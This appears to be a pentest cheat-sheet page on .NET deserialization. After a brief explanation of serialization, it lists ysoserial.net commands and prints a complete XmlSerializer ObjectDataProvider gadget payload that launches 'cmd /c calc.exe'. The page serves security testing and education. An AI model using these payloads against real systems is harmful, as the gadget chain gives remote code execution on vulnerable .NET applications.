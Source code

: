 # Serialization

### Notes
- Purpose is to convert a data structure into a format that can be stored or transmitted over a network link for future consumption.
- Involves a "producer" and a "consumer" of the serialized object. 
- E.g. An application can define and instantiate an arbitrary object and modify its state in some way. It can then store the state of that object in the appropriate format (for example a binary file) using serialization. As long as the format of the saved file is understood by the "consumer" application, the object can be recreated in the process space of the consumer and further processed as desired.
- There are various formats in which the serialized objects can be stored such as JSON and XML.

### .NET Serialization

**Tools**

* [pwntester/ysoserial.net - Deserialization payload generator for a variety of .NET formatters](https://github.com/pwntester/ysoserial.net)
```ps1
$ cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
$ ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

**Formatters**

![NETNativeFormatters.png](/img/dotnet-native-formatters.png?raw=true)

**XmlSerializer**

* In C# source code, look for `XmlSerializer(typeof(<TYPE>));`.
* The attacker must control the **type** of the XmlSerializer.
* Payload output: **XML**

```xml
.\ysoserial.exe -g ObjectDataProvider -f XmlSerializer -c "calc.exe"
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc.exe</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```
